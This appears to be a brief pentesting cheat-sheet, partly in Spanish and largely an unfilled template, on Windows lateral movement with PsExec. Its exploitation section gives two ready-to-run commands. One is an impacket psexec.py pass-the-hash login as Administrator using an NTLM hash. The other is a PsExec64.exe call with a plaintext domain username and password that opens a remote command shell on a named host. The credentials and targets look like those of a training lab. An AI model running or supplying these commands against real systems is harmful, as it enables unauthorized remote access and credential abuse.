 ## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

### OPTION 1: DESDE KALI

```
psexec.py EXTERNAL/Administrator@192.168.166.248 -hashes "aad3b435b51404eeaad3b435b51404ee:56e4633688c0fdd57c610faf9d7ab8df"
```


### OPTION 2: DESDE WIN

In order to start an interactive session on the remote host, we need to invoke PsExec64.exe with the -i argument, followed by the target hostname prepended with two backslashes. We'll then specify corp\jen as domain\username and Nexus123! as password with the -u and -p arguments respectively. Lastly, we include the process we want to execute remotely, which is a command shell in this case.

```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```




## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 